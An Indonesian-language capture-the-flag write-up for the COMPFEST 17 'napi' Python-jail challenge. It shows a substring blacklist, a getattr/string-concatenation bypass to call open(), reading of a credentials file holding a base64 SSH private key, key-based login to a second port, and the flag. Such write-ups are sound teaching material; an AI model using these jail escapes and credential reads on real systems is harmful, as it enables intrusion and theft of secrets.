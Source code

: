 # Write-up: **napi** (Misc) — COMPFEST 17

## Deskripsi Singkat

* **Kategori:** Misc / Python jail
* **Endpoint:** `nc ctf.compfest.id 7601`
* **Goal:** Dapatkan flag meski ada “penjara” (blacklist) pada input.

## Intuisi & Analisis

Service meminta username; jika `john`, input berikutnya di-**eval()** dengan beberapa **substring blacklist** dan cek **ASCII-only**. Cuplikan logika penting (disederhanakan):

* `__import__` dihapus.
* Blacklist substring: `['eval','exec','import','open','system','globals','os','password','admin','pop','clear','remove']`
* Input harus ASCII; kalau mengandung substring terlarang atau non-ASCII → blokir.
* `eval(inp)` dipanggil di dalam `try/except` → exception tampil sebagai `Cannot execute ...`.

Artinya:

* **Tidak ada sandbox kuat**; hanya blacklist substring.
* Kita tetap bisa memanggil builtins dengan **penyusunan string** agar lolos blacklist, mis. `getattr(__builtins__,'o'+'pen')`.

Awalnya saya coba trik `object.__subclasses__()` → `FileIO(...)` untuk baca file tanpa “open”, tapi runtime container ini **tidak memuat** `FileIO` (hanya `['_IOBase','_BytesIOBuffer']`), jadi pendekatan itu tidak jalan.

## Eksploitasi

1. **Login sebagai john**

```bash
nc ctf.compfest.id 7601
Enter your username: john
john >
```

2. **Bypass kata “open”** (tanpa menulis “open” utuh)

```python
print(getattr(__builtins__,'o'+'pen')('/proc/self/cmdline','rb').read())
# b'/usr/bin/python3.7\x00chall.py\x00' → kerja di CWD bareng chall.py
```

3. **Baca petunjuk** di file yang “aman” ditebak ada di CWD

```python
print(getattr(__builtins__,'o'+'pen')('notice.txt','r').read())
```

Output menyebut: *“login to admin\@THIS\_SERVER\_IP:7602 with your password as the SSH key …”*
→ Jadi ada **layanan kedua di port 7602** dan “password”-nya adalah **SSH private key**.

4. **Ambil kredensial** (private key) dari file lain di CWD

```python
print(getattr(__builtins__,'o'+'pen')('creds.txt','r').read())
```

Hasilnya adalah **Base64** dari sebuah **RSA PRIVATE KEY**.

5. **Gunakan key** untuk akses service di 7602
   Di mesin lokal:

```bash
# Simpan base64 ke file
cat > key.b64 <<'EOF'
<tempel BASE64 dari creds.txt>
EOF

# Decode & amankan permission
base64 -d key.b64 > key.pem
chmod 600 key.pem

# Coba SSH-like service (kalau bukan SSH standar, gunakan nc dan paste key pem)
ssh -p 7602 -i key.pem admin@ctf.compfest.id
# atau
nc ctf.compfest.id 7602
# lalu paste seluruh isi key.pem (BEGIN..END)
```

6. **Dapatkan flag**
   Service port 7602 memverifikasi key dan mengeluarkan flag:

**`COMPFEST17{j0hN_1s_a_mF_G_49e65c3afb}`**

## Catatan Teknis

* **Blacklist substring** mudah dibypass: gunakan **string concatenation** (`'o'+'pen'`) atau atribut tak langsung (`getattr`, `__dict__`).
* Trik `__loader__.get_data(path)` juga sering efektif untuk baca file tanpa “open”, tapi di sini cukup dengan “open bypass”.
* Pendekatan `FileIO` gagal karena kelasnya **tidak ter-load** di runtime ini.

## Mitigasi (untuk penyelenggara)

* Jangan pernah `eval()` input user. Gunakan parser/VM terbatas atau `ast.literal_eval` (jika perlu).
* Batasi **builtins** dan akses filesystem (jangan taruh kredensial di CWD; simpan di environment terisolasi).
* Hindari **security by blacklist**; gunakan whitelist + sandbox nyata.

## Flag

**`COMPFEST17{j0hN_1s_a_mF_G_49e65c3afb}`** ✅
